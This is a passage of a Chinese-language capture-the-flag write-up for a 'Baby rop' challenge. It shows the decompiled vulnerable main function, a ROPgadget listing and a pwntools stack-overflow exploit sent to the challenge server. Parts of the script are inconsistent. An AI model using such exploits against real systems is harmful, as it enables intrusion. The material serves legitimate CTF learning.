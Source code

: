 得到`flag:Syc{pwn_1s_s0_fun}`

## Baby rop

下载文件分析一下安全设置：

![1571116889883](1571116889883.png)

没有打开栈溢出保护，用ida64打开看看源程序：

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+0h] [rbp-88h]

  puts(msg);
  puts(txt);
  read(0, &v4, 0x100uLL);
  return puts(msa);
}
```

存在read函数，所以可以考虑进行栈溢出,查看.data表

![1571117464875](1571117464875.png)

由于是静态地址，所以直接使用相应地址,但传参还是使用ROP链进行传参

```bash
╰─○ ROPgadget --binary ./hello --only "pop|ret"
Gadgets information
============================================================
0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400692 : pop r15 ; ret
0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400520 : pop rbp ; ret
0x0000000000400693 : pop rdi ; ret  #可用
0x0000000000400691 : pop rsi ; pop r15 ; ret
0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400451 : ret
```

找到一个rdi可用，脚本如下：

```python
#coding=utf-8
from pwn import *

sh = remote("nc pwnto.fun",10000)
payload = 'a'*0x88+'a'*0x8+p64(0x06010AE)
sh.send(payload)
sh.interactive()
sh.close()

```
